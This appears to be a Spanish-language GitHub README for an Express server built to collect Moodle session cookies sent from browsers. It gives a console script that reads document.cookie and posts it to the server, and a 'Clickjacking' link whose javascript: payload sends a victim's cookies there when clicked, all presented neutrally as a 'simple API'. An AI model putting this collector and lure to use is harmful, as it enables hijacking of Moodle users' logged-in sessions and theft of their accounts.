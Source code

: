 # Proyecto API con Express

## Descripción

Este proyecto es una API simple creada con Express que permite recibir cookies desde el cliente. Utiliza CORS para permitir solicitudes desde diferentes orígenes y dotenv para gestionar variables de entorno.

## Características

- Endpoint GET para verificar que la API está funcionando.
- Endpoint POST para recibir una cookie (MoodleSession) y enviar una respuesta de éxito.

## Instalación

1. Clona el repositorio.
2. Navega al directorio del proyecto.
3. Ejecuta `npm install` para instalar las dependencias.
4. Configura las variables de entorno en un archivo `.env`.
5. Inicia el servidor con `node index.js` o `npm start`.

## Uso

- **GET /**: Devuelve un mensaje indicando que la API está funcionando.
- **POST /cookie**: Envía un JSON con la cookie `MoodleSession` y recibe una respuesta de éxito.

## Ejemplo de uso desde el navegador

Puedes probar la API utilizando el siguiente script en la consola del navegador:

```javascript
const getCookies = () => {
  return document.cookie.split(";");
};

fetch("http://localhost:8000/cookie", {
  method: "POST",
  headers: {
    "Content-Type": "application/json",
  },
  body: JSON.stringify({ MoodleSession: getCookies() }),
});
```

## También puedes probar la API utilizando curl
```bash
curl -X POST http://localhost:8000/cookie -H "Content-Type: application/json" -d "{\"MoodleSession\":\"Cookie de ejemplo\"}"
```

## Clickjacking
```
<a href="javascript:eval('fetch(\'http://localhost:8000/cookie\', { method: \'POST\', headers: { \'Content-Type\': \'application/json\' }, body: JSON.stringify({ MoodleSession: document.cookie}) });')">Click aquí</a>
```

## Autor

**Iván L. Álvarez**  
- GitHub: [ivanlalvarez22](https://github.com/ivanlalvarez22)  
- Portafolio: [ivanalvarez-contacto.vercel.app](https://ivanalvarez-contacto.vercel.app/)
